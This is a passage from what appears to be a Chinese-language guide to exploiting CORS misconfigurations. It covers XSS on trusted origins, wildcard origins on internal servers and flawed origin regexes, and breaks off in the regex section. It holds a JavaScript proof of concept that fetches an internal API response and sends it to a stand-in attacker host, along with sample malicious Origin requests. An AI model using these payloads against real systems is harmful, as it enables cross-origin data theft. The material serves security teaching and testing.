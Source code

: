 ### 易受攻击的示例：受信任起源上的XSS

如果应用程序确实实现了严格的允许起源白名单，上述的攻击代码不起作用。但是，如果你在受信任的起源上有一个XSS漏洞，你可以注入上述的攻击代码，以再次利用CORS。

```markdown
https://trusted-origin.example.com/?xss<script>CORS-ATTACK-PAYLOAD</script>
```

### 易受攻击的示例：通配符起源`*`不使用凭据

如果服务器响应使用通配符起源`*`，**浏览器永远不会发送cookie**。然而，如果服务器不需要认证，仍然有可能访问服务器上的数据。这可能发生在内部服务器上，这些服务器无法从互联网访问。然后攻击者的网站可以进入到内部网络，并在不需要认证的情况下访问服务器的数据。

```powershell
*是唯一有效的通配符起源
https://*.example.com是不合法的
```

#### 易受攻击的实现

```powershell
GET /endpoint HTTP/1.1
Host: api.internal.example.com
Origin: https://evil.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: *

{"[私有API密钥]"}
```

#### 概念验证

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.internal.example.com/endpoint',true); 
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```

### 易受攻击的示例：扩展原始来源/正则表达式问题

有时，服务器端未对原始来源的某些扩展进行过滤。这可能是由于使用实现不良的正则表达式来验证来源头造成的。

#### 易受攻击的实现（示例1）

在这种情况下，任何插入在`example.com`前面的前缀都将被服务器接受。

```markdown
GET /endpoint HTTP/1.1
Host: api.example.com
Origin: https://evilexample.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://evilexample.com
Access-Control-Allow-Credentials: true

{"[私有API密钥]"}
```
